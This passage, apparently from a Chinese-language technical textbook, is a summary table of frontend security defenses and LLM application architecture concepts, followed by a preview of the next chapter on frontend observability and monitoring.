| Report-Only 模式 | CSP 策略仅上报违规不拦截，用于灰度验证策略正确性，避免误伤业务 |
| 供应链攻击 | 通过污染上游依赖包（事件流、恶意维护者）植入后门，影响范围极广 |
| 依赖审计工具链 | npm audit/pnpm audit/Snyk/Socket 集成 CI，自动拦截高危漏洞依赖 |
| Lockfile 完整性 | package-lock.json/pnpm-lock.yaml 锁定确切版本与完整性哈希，防止篡改与幽灵依赖 |
| SBOM (软件物料清单) | CycloneDX/SPDX 格式记录所有传递依赖，满足合规审计与漏洞溯源需求 |
| 安全基线清单 | 固化最佳实践为强制规范：CSP 强制、Trusted Types 开启、依赖扫描门禁、敏感信息扫描 |
| 应急响应 SOP | 分级分类处置流程：确认->阻断->溯源->修复->复盘，接入 SDL 实现安全左移 |
| LLM 内核范式 | 大模型从聊天机器人升级为推理引擎/决策中枢，成为 AI 原生应用的操作系统内核 |
| Chain/Agent/Memory 三元组 | Chain 定义确定性流程，Agent 引入非确定性规划，Memory 解决长期状态持久化 |
| 提示词即代码 | PromptTemplate 与 ExampleSelector 实现提示词与业务逻辑解耦、版本化管理、动态少样本检索 |
| 结构化输出与类型安全 | JsonOutputParser/PydanticOutputParser 实现自然语言输入到类型安全对象输出的编程契约 |
| 模块化 RAG Pipeline | 标准化 DocumentLoader/Transformer/VectorStore/Retriever/Generator 接口，支持高级策略即插即用 |
| 混合检索与重排序 | BM25+向量混合召回、Cross-Encoder/LLM 重排序、多查询扩展与路由，显著提升检索上界 |
| RAG 评测体系 | 基于 RAGAS/ARES 的忠实度、答案相关性、上下文精确度/召回率指标，驱动自动化迭代闭环 |
| Agentic RAG | 将检索器封装为 Tool，赋予 Agent 自主决策检索时机、查询改写、结果验证的能力 |
| Agent 认知架构范式 | ReAct 交互式推理行动、Plan-and-Execute 显式规划分离、Reflexion 语言强化学习试错修正 |
| 工具标准化协议 | OpenAI Function Calling、MCP 统一接口、Toolformer 微调数据，实现工具标准化治理 |
| 长程规划机制 | MCTS/ToT 树搜索、DAG 任务图并行、LLM Compiler 自然语言编译为并行执行计划 |
| 多 Agent 协作编排 | MetaGPT 标准化软件流程、AutoGen 群聊代理模式、辩论反思缓解幻觉、动态组网拓扑 |
| 分层记忆架构 | 短时记忆(对话窗口)、情景记忆(向量化经历)、语义记忆(知识图谱)、程序性记忆(技能流程) |
| 个性化建模 | 从显式/隐式反馈抽取用户画像，结合 RAG 召回个人记忆，通过提示词注入或 LoRA 微调实现深度对齐 |
| 记忆冲突消解 | 新旧知识矛盾检测、版本化知识库、CoT 验证信念修正链、用户确认回环，保证逻辑一致性 |
| 全链路可观测性 | 标准化 Trace 格式记录输入/输出/Token/延迟/错误，嵌套 Span 记录每步执行细节 |
| 分层评测体系 | 单元级组件测试、系统级 RAGAS/MT-Bench 基准、业务级在线 A/B 测试，建立自动化回归流水线 |
| 数据飞轮架构 | 高质量轨迹采样→专家/模型标注→偏好数据构建→模型迭代→灰度发布→线上收集，实现规模化自我进化 |

下一章中，我们将学习前端可观测性与异常监控体系建设，覆盖错误监控、性能监控、用户行为分析、链路追踪与告警降噪，构建“可看、可测、可优”的前端运维基础设施。

